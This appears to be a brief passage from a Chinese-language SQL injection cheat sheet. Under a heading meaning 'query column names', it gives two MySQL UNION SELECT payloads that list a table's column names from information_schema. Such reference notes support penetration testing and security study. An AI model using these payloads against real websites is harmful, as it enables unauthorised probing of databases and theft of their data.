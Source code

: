 ![image-20250221230749578](static/image/image-20250221230749578.png)

#### 查询字段名

```mysql
union select null,group_concat(column_name),null from information_schema.columns where table_schema=数据库名 and table_name=表名

UNION ALL SELECT NULL,CONCAT(0x7e,JSON_ARRAYAGG(CONCAT_WS('',column_name)),0x7e),NULL FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema=数据库名 and table_name=表名
```
